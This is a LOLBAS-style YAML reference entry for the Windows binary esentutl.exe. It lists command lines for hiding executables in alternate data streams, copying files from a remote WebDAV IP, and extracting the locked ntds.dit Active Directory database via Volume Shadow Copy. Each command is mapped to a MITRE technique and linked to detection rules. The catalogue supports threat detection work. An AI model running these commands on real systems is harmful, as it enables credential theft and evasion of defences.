 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy
    Privileges: Admin
    MitreID: T1003.003
    OperatingSystem: Windows 10, Windows 11, Windows 2016 Server, Windows 2019 Server
Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_params.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_webcache.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/registry/registry_event/registry_event_esentutl_volume_shadow_copy_service_keys.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_sensitive_file_copy.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/esentutl_sam_copy.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_copy_ntds_sam_volshadowcp_cmdline.toml
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Mike Cary
    Handle: '@grayfold3d'
---
```

